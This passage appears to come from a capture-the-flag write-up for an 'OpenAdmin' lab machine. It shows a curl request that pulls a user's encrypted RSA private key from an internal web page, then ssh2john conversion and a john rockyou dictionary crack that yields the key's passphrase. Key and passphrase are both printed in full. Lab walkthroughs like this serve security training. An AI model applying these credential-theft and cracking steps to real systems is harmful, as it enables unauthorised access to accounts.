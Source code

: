 ```sh
jimmy@openadmin:/var/www/internal$ curl  -X POST -F 'username=jimmy' -F 'password=Revealed'  localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Yes! we got a rsa private key. We need to crack that. Let's ask `john`. What we do is copy this key to a file on our host. First we need to convert that to `john` compatible. We locate `ssh2john` and pipe the result to another file, and then run `john` with `rockyou`

```sh
$locate ssh2john
/usr/share/john/ssh2john.py

$usr/share/john/ssh2john.py joanna.priv > joanna.priv.john

$/usr/sbin/john joanna.priv.john -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna.priv)
1g 0:00:00:14 DONE (2020-03-18 14:47) 0.06963g/s 998725p/s 998725c/s 998725C/s     1111..*7¡Vamos!
Session completed
```
